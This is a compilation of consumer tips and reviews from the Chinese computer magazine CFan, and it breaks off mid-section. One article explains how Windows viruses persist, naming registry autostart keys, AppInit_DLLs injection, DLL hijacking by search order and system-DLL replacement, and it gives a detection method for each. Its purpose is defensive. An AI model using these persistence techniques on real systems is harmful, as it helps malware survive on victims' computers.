使用HOST文件，即使发生了由于DNS故障导致的网络瘫痪，也可以访问HOST文件中解析的网站。由于节省了解析过程，速度更快。对HOST文件经过一定的设置，还可以达到屏蔽不良网站的效果。除此之外，对付DNS问题，还可以通过使用代理服务器、自设DNS服务器等方法解决。也欢迎大家提出更好的解决办法。

（文/河南 赵建超 马琰）

## 按播放次数听歌

原题重现：快速暂停一切操作 达人会馆绝对挑战——按播放次数排序（题目编号20091201） 我是一名电脑爱好者，看CFan已经有五年多了，CFan陪伴我度过了人生的青葱岁月，高中三年，我在CFan的激励下努力学习，自己也变得更加自信、成熟。这是我的第一次投稿，很多地方不是很熟悉，请编辑们见谅，文章中的图片可能有点多，请编辑们酌情删去。如有错误，还请编辑们给予指正、拔擢。 在网上搜索了N久，实在是找不到通用型的解决方案，于是就想用编程来解决，但是要和各种播放工具兼容结合，实在是令笔者难以下手。于是就只好采用折中方案，就是根据不同的播放器来找不同方法。 装了N多软件，折腾了两天，终于发现有五种播放器都可以实现这个要求。分别是Windows Media Player（以下简称WMP）、iTunes、Foobar 2000、Winamp和酷我音乐盒。 WMP、iTunes、Winamp和酷我音乐盒本身就集成了这项功能，笔者就先来说一说这四款软件是怎样实现这个功能的。

- 1.WMP

首先点击WMP的媒体库，然后在WMP软件中部播放列表上方的项目栏上右击，选择‘选择列’并单击，然后在打开的窗口中将‘播放计数’项目选上。点击确定后你就会发现播放列表的项目栏最右侧出现了‘播放计数’项目，以后在播放歌曲时它就会统计歌曲的播放次数并进行排序。

- 2.iTunes

首先到苹果的官网下载iTunes的最新版，安装后打开iTunes并添加本地音乐，你就会在播放列表中的项目栏中发现‘播放计数’这个项目，单击‘播放计数’就可以根据歌曲的播放次数来对播放列表中的歌曲进行排序。

- 3.Winamp

首先到http://www.skycn.com/soft/4641.html下载Winamp 5.552简体增强版，安装（安装时请将‘用户界面扩展’选上）后打开（打开后请选择Bento面板），你会在软件左侧的‘媒体库’选项卡窗口中发现‘播放最多的’列表。单击这一列表后，在右侧播放列表的项目栏中你会发现‘播放次数’这一项目。在听歌时它会自动记录歌曲的播放次数，大家可以点击‘播放次数’项目对歌曲进行排序。

- 4.酷我音乐盒

酷我音乐盒在实现‘按播放次数排序’这项功能方面貌似有点BUG，‘最多播放’的歌曲总是显示不全。不过BUG终究是会被修复的，笔者还是给大家说一说吧。首先到http://mbox.kuwo.cn/下载最新版（BUG可能已被修复），安装后打开，单击软件上方的‘本地曲库’，然后你就会发现在软件左侧‘本地曲库’窗口中有一个下拉列表，里面有一个‘最多播放’项目，选择它就可以根据播放（此软件的播放要求不清楚）次数进行排序，并且还可以通过点击下拉列表上方的三个按钮实现从目录、歌手、专辑三个方面来查看。

- 5.Foobar 2000

Foobar 2000是一款非常强大的音乐播放器，通过插件可以实现几乎所有的功能，但是它的上手比较困难，但只是要实现‘按播放次数排序’这一功能还是很简单的：当然，这一功能也是通过插件来实现的。

第一步：首先推荐大家到http://work.newhua.com/cfan/200914/FB0961.rar下载Foobar 2000 v0.9.6.1 Final汉化版，因为此版本中集成了这次所需要的foo_playcount插件。 第二步：安装后打开Foobar 2000，此时会要求选择外观，笔者的主窗口布局选的是第六个，颜色和播放列表布局没有选（推荐不熟悉Foobar 2000的读者使用和笔者相同的设置），点击确定后进入主界面。 第三步：在右侧播放列表窗口中右击项目栏并在弹出的菜单中选择‘分栏’，在分栏中选择‘更多...’。然后在弹出的设置窗口中单击‘添加’，在‘名称’和‘模板’中分别输入‘播放计数’和‘%play_count%’（不含引号），‘队列’选择‘中’，点击‘关闭’后退到主界面。 第四步：再次右击播放列表中项目栏并在弹出的菜单中选择‘分栏’，在‘分栏’中选择‘播放计数’。然后在项目栏的最右边会出现‘播放计数’项目，将其拖放到最左边。 第五步：点击左窗口中的按钮添加本地音乐，播放几首歌后，就可以进行排序了。

挑战者：河南/skylvpan

## 是我的兵要和我走

原题重现：如何锁定文件关联，同时又不影响电脑的正常使用呢？ 这是一个很实在的挑战，笔者也经常遇到这样的问题。 但是每次都是听之任之，怎么以前就没想到从根本上解决问题呢？但是这次我决定重夺我的控制大权。 以QVOD快播为例吧，因为某网站的电影需要安装快播才能观看，所以我不得不安装上这个我不太喜欢的播放器。平时根本就很少用到它。但是自从安装过QVOD以后，它竟然自动把WMV、FLV、RM、ASF、MPG（以上文件类型的默认打开程序为暴风影音）、WMA（默认打开程序为酷狗）等常见的文件与之关联。大家都知道，每个人都有自己习惯使用的音、视频播放器，怎么能说换就换呢！ 注册表的功能非常强大，很多功能都可以通过修改注册表来实现。下面我们就通过注册表编辑器来实现禁止修改文件默认打开程序的功能。以修改RM文件为例，打开‘注册表编辑器’后，展开[HKEY_CLASSES_ROOT\.rm]分支，右击.rm项，在弹出的菜单中选择‘权限’，然后在‘组或用户名’下选中‘Administrators’，在‘Administrators的权限’下，勾选‘拒绝’下的‘完全控制’和‘读取’，最后点击‘确定’按钮。 这样，RM文件的默认播放器就是暴风影音了。如果想临时使用QVOD播放RM文件，可以右击RM文件，然后选择‘打开方式’，然后通过‘浏览’定位到QVOD的应用程序即可。

小编点评：利用注册表来实现禁用，方法不错，但总感觉还是会影响使用，保留10积分，看看以后还有没有更完美的方法出现。

挑战者：郑伟龙

## Angel or Evil，临时文件合体之身的辩证

最近，小姚用电脑特不舒服，因为刚开电脑没过多久就提示系统空间不足，请运行自动清理程序清理系统。不过按提示操作之后，没起多大效果。小姚刚装系统的时候，C盘剩余空间有3GB大小，现在却只有可怜的几十MB空间了，而她并没有安装什么程序到系统盘里。推测，这是系统产生的临时文件起到负面作用了。其实临时文件是个让人又爱又恨的东西，它诞生的初衷是让用户在操作时更加快捷、省时，但很多时候却起到了反作用，究竟它何时是天使，何时是魔鬼呢？

### 上帝用爱让它诞生

在Windows的世界里，基本上你的每个操作都可能留下“痕迹”，而这个痕迹的表现就是临时文件。临时文件是我们为最终看到的结果，做出服务的文件，也是做出“牺牲”的文件，精神可嘉。在下载、安装/卸载软件时，浏览网页时，在线观看视频时，收发电子邮件时，用QQ传输文件时……但在通常情况下，大部分的临时文件可谓“来也匆匆，去也匆匆”，许多创建临时文件的程序，在完成任务后会“识趣地”将其删除，有些临时文件是在系统重新启动之后自行消失。但有些脸皮厚的程序，还是会将自己留下的东西保留。将临时文件保留的原因，可能有很多：对于一般的程序来说，可能是程序安装到一半，由于人为因素或突发事情导致中断，类似虚拟光驱类的软件要求重启，在系统重启时程序自身崩溃；而对于IE来说，在硬盘中保存网页的缓存，以后浏览相同站点的时候，IE不必从远程下载相关网页资源，如较大的Flash、图片等，载入IE临时文件夹保存的文件即可，大大提高了浏览网页的速度。

### 软件让它现出魔鬼本性？

用电脑就是用软件，每天都要接触大量的软件，它们产生的临时文件更多了，拿常用的WinRAR来说吧，下载一个软件压缩包，双击安装程序，经过解压后弹出安装界面，这时如果不小心选了取消，那下次安装还用再解压缩吗？答案是否定的！当点击过WinRAR里面的安装程序后，它已经被解压到系统分区的Temp文件夹下面了，按下Win+R打开“运行”，输入%temp%打开系统临时文件夹，按下r定位到以字母r开头文件夹，找到与Rar$EX00.203类似的文件，它们就是WinRAR解压的临时文件了。大部分的软件，如果要用到临时性的文件，都会先在这个临时文件夹下保存，不过许多软件做的并不成熟，随着软件使用完毕，这些临时文件并没有被删除（也有可能是为下次使用准备数据），这就是刚才说的“脸皮厚”的类型。

### Office世界，双面特征充分体现

微软Office安装之后，其主目录只有300多MB大小，不要急，回到安装分区根目录下，在“文件夹选项”中选择“显示所有文件和文件夹”，此时会发现多出了一个MSOCahe隐藏文件夹，这里存放着安装程序解压后的几百MB左右临时文件，基本无用，可全部删除。Office的临时文件不仅限于安装时产生的大个儿头目录，还有就是每次打开一个文档在同目录下产生的以“~$”开头的同名临时文件，这是微软给Office设计的“后悔药”，学名叫做“自动备份暂存文件”，并且在文档运行时不可删除，在阴天打雷下雨突然停电的时候，在突然死机的时候，没有保存过的文档，在开机后打开Word文档后，会在左侧提示你是否导入未保存的文档，能在一定程度上挽回损失。

### 网络大补贴：

误删系统文件，未保存Word文档突然断电，遇到这些类似情况怎么办？http://article.pchome.net/content-453578.html有几个恢复的小技巧。

### 罪恶难掩天使之身

很多时候，临时文件给我们带来的还是它的善良，IE的临时文件加速浏览、邮件副本保存到本地、在线观看大片时的“加速”，等等，还有就是打印的时候。去复印店打印论文，你会发现打印员只要点击“打印”按钮，就可以关掉当前文档，再打开另一个文档打印，而这些文件可以轻松在打印机上输出，这其实是打印文档时，在计算机系统里有一个C:\WINDOWS\system32\spool\的目录，打印机的驱动（DRIVERS）、打印时文档的临时文件（PRINTERS）等都保存在这里，原来是临时文件在帮忙啊。

（文/侯忠 常雪斌）

## 网站还是软件？在线文件处理盛行

想必不少人有过在网络上生成自己名字印章，Email地址或者修改大头贴的经历，可能很多人都会想，这类网站真是太厉害了，竟能像PS那样，更妙的是这东西还不用下载，在线就可以用。那么这些网站是如何做到的呢，它们的创作者们都是技术大牛吗？下面我们就来揭开它的神秘面纱。我们来拆解下我们进行图片处理的过程，上传图片后，网站前端（就是我们看到的页面）和服务器都识别了这个图片，然后呢我们在前端对图片进行着各种处理，我们的这些动作，例如添加一个字，这其实就类似于一个网页游戏，是通过调整控件进行的操作，类似于一个可视化的要求，而真正的图片并没有改变。稍后把前端的数据处理要求传给后台服务器，后台服务器按照前端收集到的操作进行修改，才真正完成图片的处理。这个过程，就好比有两个角色，后台是画师，网站只是一个需求搬运工。我们对画师的需求只不过是在网页上用一种所见即所得的方式展示出来，网站把需求发给后台，画师就按我们描述的要求进行工作了。那么后台的处理是不是很复杂，网站建设者需要自己去了解OpenCV，OpenGL这类技术吗？果真如此，那真是噩梦。实际上，后台的处理运算完全由工具包自动完成ImageMagick，JGraph等第三方工具包替我们做了，使得我们不必太关心底层。将处理后的图片传回前端，可以供用户下载就可以了。另外，这个过程就要求数据的传输，对服务器的要求也并不高。因为这里不需要实时传输，AJAX（异步JavaScript和XML）技术的日益成熟，使得在网站前端进行的图片修改数据不必每次都回传服务器，减少了服务器负担；很多时候，只需把最终修改结果传回服务器就可以了。

### 小提示：

总结起来数据传输，后台处理没有多少技术含量，关键在于前端的需求编辑。画师很多，关键是让他理解我们的需求。它们互相配合，构成了一个完整的网站。其实，不光在线图片处理网站是这样，其他的在线交互网站，比如在线转换，在线压缩呀，也都是这个原理。

### 网络大补贴：什么是AJAX

http://baike.baidu.com/view/1641.htm

（文/Idlc）

## 一分二，一分四（1）

原题重现：批量将图片按宽度平均分为两张或者四张？并且图片要按顺序重命名。

看完题目让我想到了以前CFan提到的一款图片处理软件，“图片剪纸刀”（下载地址：http://www.newhua.com/soft/75660.htm）。运行软件，点击+添加图片，在“剪裁设置”里选择纵向或横向切刀，设定刀数；从“储存设置”里可以选择“自动增长文件名”以对其进行重命名，设定完储存路径后即可“开始分割”了。不过，如果我们要对图片进行更复杂的操作，比如对长宽同时进行分割，这款软件就有些力不从心了。“ATOM 图片分割”（下载地址：http://work.newhua.com/cfan/200915/PSS.rar）是一款比“图片剪纸刀”功能更强大的裁图软件。运行软件，选择需要分割的图片。软件提供了“按尺寸分割”和“平均分割”两种方式，通过对行列的设定来调整分割的张数，点击“开始分割”后会要求选择生成文件的存储路径及文件名。不过这款软件不能实现批量处理，仅适合处理少量图片。

（挑战者：狼王）

## 一分二，一分四（2）

安装并启动Ulead SmartSaver Pro 3.0（下载地址：http://work.newhua.com/cfan/200915/USSP.rar），点击菜单栏的“文件→批量处理”，在“批量处理”窗口中，选中“引入来源”下的“按文件夹”，然后选择待处理图片保存的文件夹，接着选择“输出结果至”下的“文件夹”，设置好切割好后图片保存的文件夹，然后切换到“选项”选项卡下，勾选“图像切割”，分别设置行为2，列为1，最后点击“确定”按钮即可。以上操作为挑战任务中的“按宽度平分图片为两张”，至于“如何将图片平分为四”，只需修改“选项”选项卡下的行的值为2，列为2就可以了。

### 小提示

“凌宵批量切割图片”（下载地址：http://www.skycn.com/soft/37912.html）也可实现批量切图的功能，只是你不给钱的话，最多只能切五张图。

小编有话说：其实说到图片分割，我最先想到的就是用PSP Comic Converter（下载地址：http://work.newhua.com/cfan/200915/PSPCC.rar），它是专为在PSP上看漫画而设计出来的，可以自动裁图。而这次的挑战题，则是这个需求的扩大版。

（挑战者：广东/郑伟龙）

## 关闭“好友印象”（1）

原题重现：如何关闭“好友印象”？以防止好友印象骚扰？

对于这个问题，之前有人挑战，但不是很完美，缺点很多。解决它其实很简单。下面我将介绍彻底抗骚扰100%“好友印象骚扰”。首先，登录QQZone里的个人空间，再点击个人中心，选择应用列表，点击“添加”之后点击添加“好友印象”这样就完成了一大半了。然后再回个人中心，点击“好友印象”之后，点击“关于我”就看见了好友们对于自己的印象，把鼠标移到自己不需要的好友印象后看见有个叉叉。点击叉叉，就可以删除好友印象了（*^__^*），这样就解决了小编们的烦恼了，本人第一次答题，望小编们口下留情啊。

小编点评：估计张伯茂还是没有看清楚题目，是禁止别人对你做出印象评价，而不是删除。如果是删除直接用QQ就可以了！不过这个在QQZone中的“好友印象”功能，小编一直没找到，难道是RPWT？

（挑战者：广东/张伯茂）

## 不见兔子不放鹰 揭秘病毒如何启动

无论什么样的病毒都不敢保证在感染电脑后就马上发挥作用，比如盗个网游账号，万一那时候人家压根就没有启动游戏，肯定没戏，黑客朋友也不希望辛苦到手的肉鸡随着电脑的一次重启而消失，这也就说到病毒的自启动技术，病毒是怎么让自己启动，以保青春常在的呢？一起来看！

### 不怕俗就怕忘 常见方式一览

要实现病毒的存活，病毒作者就要不断地研究Windows的启动机制，并不断采用新的启动方式来逃避杀毒软件，人肉手工杀毒，在这里笔者想和大家一起学习下日常生活中常见的一些病毒启动方式。

| 位置 | 特点 |
| :--- | :--- |
| C:\Documents and Settings\用户名\开始菜单\程序\启动 | 最常见，应用最简单的启动方式，将文件拖入该目录即可实现自启动 |
| [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects] | 挟持IE的最佳选择 |
| [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]、[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce] | run（每次都运行）和runonce（只运行一次）是正常软件优雅启动的神圣之地，同时也是病毒浑水摸鱼的地方 |
| [HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services] | 这里是启动Windows最核心的文件，也是加载杀毒软件的监控程序，病毒常躲在这里更隐蔽，“灰鸽子”就是利用它来达到后台启动，窃取用户信息的，而9348.cn病毒通过它深入Windows内核，阻止用户修改IE主页。 |

### 小提示：

已知的病毒启动项目可以说数不胜数，笔者这里提供一份pcvista.cn整理的病毒启动方式说明文档（下载地址：http://work.newhua.com/cfan/200914/qd.rar）。

### 走过路过 来看病毒启动新伎俩

如今是一个强大下载器和疯狂盗号器猖獗的年代。机器狗，磁碟机，AV终结者，猫癣下载器，HB蝗虫病毒，Rpcss盗号器等数不胜数，那么这些流行病毒又是采用了什么方式来启动自己的，这里笔者想和大家分享三种典型的启动方式。

### 一、HB蝗虫盗号器的三板斧

这里介绍盗号木马最常使用的三个注册表键值，典型的病毒就是HB蝗虫盗号器。

**检测防御方法：**

有许多优秀日志诊断工具比如HijackThis,SREng（国内知名的安全辅助工具，需要人工分析），金山急救箱（金山出品的智能启动项分析软件，不需要人工分析），autoruns（微软官方免费提供的强大的日志分析工具，兼容性最好），可以作为辅助查杀的工具。这里也以Autoruns为例（为了减少需要人工鉴定的项目，可以选择Options下拉菜单的“Hide MicroSoft and Windows Entries”和“Verify Code Signatures”）。

| 键值 | 注册表位置 | 信息 |
| :--- | :--- | :--- |
| ShellServiceObjectDelayLoad | [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad] | 首先病毒会先添加到系统，系统分配给它一个唯一标识CLSID，接着病毒文件注册到ShellServiceObjectDelayLoad下。这样它就可以自由出入系统进程（如资源管理器Explorer.exe），explorer也会加载已经在ShellServiceObjectDelayLoad注册的文件。 |
| ShellExecuteHooks | [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks] | 与上面情况类似，不同的是它不会被Explorer自动加载，只有当你从Windows桌面、开始菜单、快速启动工具栏等进行启动一个程序，打开一个文档，甚至在资源管理器中切换一个文件夹等操作时，才会执行病毒文件。 |
| AppInit_DLLs | [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs] | AppInit_Dlls是一个非常危险的键值，任何的恶意软件在这里进行了修改，那么就意味着任何使用到User32.DLL（User32.DLL是一个非常非常通用的DLL，简单说只要有界面的程序都会使用这个user32.dll）的进程都会被注入病毒dll。病毒文件将执行盗号或者其他有害的操作。 |

### 二、“猫癣下载器”的借尸还魂术

基于注册表的启动项目虽然数以百计，但是已知的注册表项目Autoruns之类的软件还是能够检测出来，于是病毒作者又寻找了一种隐蔽的启动方式——靠dll挟持来启动自己，甚至还达到了即使重装系统也会中毒的终极目标。典型代表：猫癣下载器（又名犇牛下载器，流行于2009年春节前后），此病毒会在所有包含程序的目录释放一个隐藏的usp10.dll文件，这个神奇的dll到底有什么用呢？

首先让我们来了解下程序运行dll文件的顺序：应用程序的安装目录→当前的工作目录→系统目录→路径变量。说到这里大家应该有些明白了吧，当我们打开QQ等程序的时候它会加载所需要的系统文件，当然搜索路径还是前面的顺序，这样它就会把这个伪装的usp10.dll（类似的还有psapi.dll, ws2_32.dll, wsock32.dll等）优先执行（病毒的运作模式如下图所示）。而这个dll的主要功能就是下载一个木马下载器，一旦漏掉，这个dll就会导致病毒不能清除（所以很多人虽然把QQ，迅雷等常用程序安装在其他盘，重装系统，一旦启动QQ等常用软件电脑还是会中毒）。

**检测防御方法：**

在以下键值添加一个名为 USP10，内容为 USP10.dll 的键值，可以免疫病毒 usp10.dll 的调用，经过这样设置以后程序启动的时候会优先到设置的目录去寻找（这里是 C:\windows\system32 目录）。[HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls]。不小心感染的可以使用金山U盘专杀等支持异常的 usp10.dll 扫描清除的软件清除。

### 三、机器狗的釜底抽薪计

以上介绍的两种病毒启动方式，绝大多数对熟悉的网友都能够找到罪恶的源泉并删除相应的病毒文件，这一部分要介绍是一种让杀毒软件左右为难的病毒启动方式，典型代表：机器狗病毒和Comres盗号器。

先让我们来看一段简单的日志：
（1） CreateFileA: C:\WINDOWS\system32\EN7hzSreCat8.dll
生成一个名为EN7hzSreCat8.dll的病毒文件
（2） MoveFileExA: C:\WINDOWS\system32\comres.dll C:\WINDOWS\system32\e863f72a04b6.dll （将comres.dll重命名为e863f72a04b6.dll）
（3） CopyFileA: C:\WINDOWS\system32\EN7hzSreCat8.dll C:\WINDOWS\system32\comres.dll （将EN7hzSreCat8.dll复制为comres.dll）

我们发现病毒将重要的系统文件comres.dll替换为自己的病毒文件，并将系统文件comres.dll重命名。由于comres文件对在系统来说非常重要，因此每次电脑启动的时候都会自动加载。杀毒软件将这个病毒替换的comres.dll病毒查杀以后，重启电脑我们会发现大量程序运行提示错误。反之杀毒软件对病毒替换的comres.dll不闻不问的话又会导致电脑反复中毒（另外类似的还是rpcss.dll被病毒替换以后会导致系统复制粘贴功能失效）。

**检测防御方法：**

Windows绝大多数系统文件都包含数字签名，我们可以通过验证文件是否存在数字签名来判断系统文件有没有被修改。首先我们按快捷键 Windows + R 调出运行窗口，输入 sigverif.exe，选择高级选项，按照如图4所示的操作进行扫描。扫描完成后发现 comres.dll 被病毒修改了，我们可以将被病毒修改的文件改回来。本例中将 e863f72a04b6.dll 修改为 comres.dll，但很多时候我们发现不知道原始文件是哪个了，此时我们可以到相同版本的电脑上拷贝 comres.dll 文件替换原来的文件，然后重启电脑即可（不能替换可以暂时将 comres.dll 手工重命名）。
（文/脑残）

## 百度P2P搜索是昙花一现吗

严寒酷暑中百度传出了惊人消息，开始测试P2P搜索页面http://p2p.baidu.com，可以直接搜索到P2P信息，宣传可以提供包括BT，电驴在内的P2P资源链接，实际测试中，搜索到的内容主要为视频信息，测试几天后就停止了。有媒体称其为昙花一现，搜索引擎能做P2P搜索吗？

测试中搜索到的资源列表会显示文件的名称、大小、格式、资源数，包含多个文件的资源左侧会显示“+”号，点击可展开查看各文件信息。进入文件详情页后，勾选需要的资源，并点击“在P2P软件中运行”按钮，即可在P2P软件中添加任务。那么新的P2P搜索真的与众不同吗？首先P2P数据文件会在网络分散化存放，而不是存放于专用服务器。传统的搜索引擎基本靠蜘蛛程序定期爬网来构建索引数据库，针对web网站上的资源很有效，而难找到存放在客户端上的P2P资源。

虽然一些P2P软件本身也提供了搜索，但只能搜索本软件支持的类型，并且大多依靠软件客户端将用户分享的资源目录上传到目录服务器，然后提供给其他用户进行检索，有很大的局限性。而P2P搜索主要是依靠广播的形式进行搜索，在网络中，每个用户的机器（A机器）都不知道其他机器上的分享资源。当用户对某个内容进行搜索时，这个查询信息会传递给它的相邻机器（B机器），如果相邻机器含有这个资源或者有以前查询过的记录，就返回一个信息给用户。如果没有，就把这个查询转发给B机器的相邻机器，以此类推。这种搜索方式查询速度很快，但会受到网络带宽和网络节点稳定性的影响，在搜索效率和准确度方面还需很大的改善。

### 小知识：

P2P是peer-to-peer的缩写，peer在英语里有“同等者（地位、能力等）”、“同事”和“伙伴”等意义。这样一来，P2P也就可以理解为“伙伴对伙伴”的意思，或称为对等联网。
（河北/banner）

## 你OUT了？流行图片处理软件比比看
### 五款图片自动处理软件横评

图片处理，曾是高手们炫耀PS技术的本钱，唯美的照片，搞笑的动画让我们垂涎不已，很想让自己的靓照也达到如此效果。这些愿望在近几年逐渐成为人人可享受的事了，因为傻瓜化的图片处理软件不断涌现，功能也逐渐丰富，同时软件的同质化也出现了，功能类似我们选择谁呢？当然是选最好的，于是CFAN研究院的职责又要行使了。

### 毋庸置疑的测试平台

本次评测为同平台下对比测试，配置单如下：
CPU: Intel Core T7400 @ 2.16GHz
内存: DDR2 667 2GB
主板: Intel 945GM
显卡: GeForce 7400
硬盘类型: SATA 7200 RPM
软件环境上我们使用安装了所有补丁的Windows XP pro SP3。

### 我们的测试对象

-   光影魔术手3.1.1.58
    http://www.neolimaging.cn/download.shtml
-   美图秀秀1.5.3
    http://xiuxiu.meitu.com/
-   iSee图片专家3.7.3.6
    http://www.iseean.com/
-   可牛影像v1.5.1
    http://www.keniu.com/
-   Turbo Photo V6.5
    http://www.stepok.com/chs/index.htm

### 才艺展示

#### 光影魔术手
配合启动时的向导中心，可指导你根据不同的图片问题类型进行处理，除了具备常用功能，还可进行局部着色，支持证件照片排版，对焦棒对焦模拟。支持上传到网络相册：QQ、百度、新浪、天涯、雅虎、flickr相册（试验中QQ相册上传失败）。支持使用摄像头拍大头贴和导入图片合成。网站提供了一个礼物中心，可以制作实物，提供了直方图、EXIF等信息。按钮多、低端和高端用户的需求均可满足。

#### 美图秀秀
功能菜单简单明了，软件并不包含最全的功能，主要针对图片的美化、处理、非主流操作。软件可进行局部着色、局部马赛克、局部变色。处理图片时提供了一个预览，随时可以回到原图。支持下载特效素材。软件设计上支持网络，但软件界面下面的“网上冲印”、“发到手机”在本刊测试时还未有效，上传照片提示还未开通。支持将图片复制到剪贴板，以便QQ调用。

#### iSee图片专家
软件也采用向导模式，有一键操作模式，包含智能色彩、自动补光、人像美容模式，加入了PS滤镜，使得很多PS下的效果可以在这里方便调用。支持PS常用快捷键，支持复制到剪贴板和上传图片。支持批处理，提供了冲印尺寸对照表，图标提取功能，支持非主流处理。

#### 可牛影像
软件以特效处理和场景的方便更换出名，软件加入了PS特效，在处理时会有效果的记录，可以单独撤销操作或操作，支持传到QQ、下载特效，放大缩小不支持快捷键操作。

#### Turbo Photo
界面相对简单，常用功能还算齐全，带有Turbo Photo相册功能，支持历史记录，处理中一般提供三种模式供选择，全自动处理、向导处理和全手动。向导化处理过程中没有提供撤销功能，然后带有针对相机的多拍工具等一些特色功能。

其他基本数据对比（见下表）

| 软件 | 模式 | 捆绑安装 | 操作历史 | 对比 | 数码暗房 | 批处理 | 与网站结合 | 相册 | 非主流处理 | 素材下载 | 自动批量裁剪 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 光影魔术手 | 免费 | 供选择的百度搜霸 | 支持 | 支持 | 5大类29种 | 支持 | 支持 | 不支持 | 支持 | 支持 | 支持 |
| 美图秀秀 | 免费 | 供选择的百度搜霸和IQ浏览器 | 不支持 | 支持 | 5大类34种 | 不支持 | 不支持 | 支持 | 支持 | 支持 | 不支持 |
| iSee图片专家 | 免费 | 供选择的百度搜霸 | 不支持 | 不支持 | 8个大类48种 | 支持 | 支持 | 支持 | 支持 | 支持 | 支持 |
| 可牛影像 | 免费 | 无 | 支持 | 支持 | 3个大类26种 | 不支持 | 不支持 | 支持 | 支持 | 支持 | 支持 |
| Turbo Photo | 收费 | 无 | 支持 | 支持 | 默认三种，支持下载 | 支持 | 不支持 | 不支持 | 不支持 | 支持 | 不支持 |

### 实例评测

#### 任务一 照片美容

任务：照片美容可以说是推动图片处理发展的一个积极因素，摄像头水平不高或者皮肤不好都可以通过软件来实现，让很多MM为之兴奋，也让很多GG一显身手。我们第一个要比的就是软件的自动美容功能，我们挑选了一张脸部看上去有些泛油，且不够光滑的MM照片，用软件对其进行美容处理。

##### 光影魔术手
启动软件后，有个向导提示，选择处理的几种类型，选择美容，进入自动美容模式，或者按F8自动完成美容。等待一会儿分析后，美容完成。有对比模式。没有提供单独的磨皮等美容项目，在美容中可以调整亮白、磨皮力度和范围。支持自动操作，还可以编辑自动动作。默认有直方图显示。

##### 美图秀秀
也有向导模式，但没有提供自动化的处理，需要手动进行祛斑和皮肤美白的处理，好在只需拖动画笔。有对比模式。放大缩小不支持常见的PS快捷键。美容方面，提供了皮肤美白、眼睛放大等功能，但处理中不支持单步的撤销和历史记录很不方便。

##### Turbo Photo
开始无向导，打开照片时会启动向导，人像美容提供了三种处理模式：全自动、向导处理模式和全手动。全自动模式处理效果比较差，向导化的半自动处理模式采用向导模式，先手动去除斑点，然后自动鲜艳和增白，然后提供三种处理效果供选择，但没有返回上一步的操作。有一个全自动处理模式，但效果不好。提供有全手动处理模式。

| 软件 | 处理效果 | 评分 | 其他美容功能 |
| :--- | :--- | :--- | :--- |
| 光影魔术手 | 效果整体不错，皮肤细腻，肤色真实，只是没有增加 | 5 | 支持少量饰品、支持图片涂鸦 |
| 美图秀秀 | 处理不够精细 | 2 | 眼睛放大、眼睛变色、眼影、腮红、眉毛、睫毛、假发、染发、唇彩、纹身，支持导入饰品，支持涂鸦 |
| iSee图片专家 | 效果有点假，脸部磨皮严重，有点泛白 | 1 | 支持少量饰品、支持涂鸦、腮红、睫毛、头发 |
| 可牛影像 | 效果尚可，皮肤进行了增白，但皮肤出现斑点，不自然 | 4 | 眼睛变大、变色、瘦脸美容、染发、唇彩、腮红、眼影、睫毛、眉毛、发型、纹身、指甲，支持导入饰品，不支持画笔涂鸦 |
| Turbo Photo | 脸部尚可，头发出现泛白 | 3 | 瘦脸美容 |

#### 任务二 常规抠图

任务：抠图曾是PS高手的专利，傻瓜化软件的出现让大家都逐渐掌握起来，而且抠图对后面的摇头娃娃制作也是关键的前期步骤，所以我们采用刚才的人像照片，将人像从照片抠出来，评测各选手表现。

##### 光影魔术手
启动软件，依次单击“工具→容易抠图”，通过左键画线的方式区分抠图的前景和背景。选择后可进行替换背景、填充背景、模糊背景、删除背景的操作，中间可调整边缘模糊、强度、透明度。

##### 美图秀秀
切换到场景中，“抠图换背景”，用画笔勾画出前景，类似PS的多边形选取，无法进行微调，不过处理后在描边和透明度方面可以进行调节。处理后抠图保存在饰品下，可以直接用，但不支持另存。

##### iSee图片专家
依次选择“图像调整→抠图去背景”，有多种方式可以选择，简单的多边形选取和容易抠图（需另下载抠图滤镜，http://bbs.iseean.com/dispbbs.asp?boardID=73&ID=37500），但模式几乎一样，勾选区域而已，支持边缘羽化。

##### 可牛影像
没有直接的抠图功能，可以在制作时尚摇头娃娃和QQ搞笑表情里找到抠图功能，进行中中途保存即可。画笔勾选有了改进，起始点会出现一个圆圈，避免勾画选取时无法找到起始点的困难。

##### Turbo Photo
没有抠图功能，依次启动“增强与特效→智能抹除”提供的是抹除图片某个部分的功能，很难实现抠图功能。

#### 任务三 照片修复

任务：照片的修复也是我们常用的功能，所以我们选用了曝光不足、曝光过度、有红眼和斑点三张照片为例子，分别选用软件进行自动修复，评比效果。

## 达人会馆

《电脑爱好者》· 合订本· 正文分册

| 软件 | 曝光不足 | 曝光过度 | 红眼/斑点 |
| --- | --- | --- | --- |
| 光影魔术手 | 有自动补光，但需用多次，效果还好 | 有自动减光，效果还好 | 效果一般 |
| 美图秀秀 | 没有自动化的照片修复 | 没有自动化的照片修复 | 效果还好 |
| iSee图片专家 | 有自动补光，但需用多次，效果还好 | 有自动减光，效果一般 | 红眼处理较差，选择红眼通过容差来判断 |
| 可牛影像 | 有自动补光，但需用多次，效果还好 | 没有曝光过度修复，使用自动对比度调整，效果较差 | 红眼效果一般，祛斑还好 |
| Turbo Photo | 自动补光，给出三个处理结果，但效果都不理想，使用点测光调整模式，效果理想 | 自动处理效果不好，使用曝光调整点测光模式效果好 | 效果较好 |

## Stop! 一切操作完全定格

## 限时答题：关闭“好友印象”

### 原理重现：快速暂停一切操作

解决这个问题很简单，只要使用进程管理软件的挂起功能，就能够暂停运行的程序。但是根据题目要求，需要一下子挂起多个进程，就需要命令行的进程管理软件了。还好，微软有一套命令行进程管理软件——PSTools（下载地址：http://www.onlinedown.net/soft/18228.htm）。

### 原理重现：如何关闭“好友印象”以防止好友的“印象骚扰”

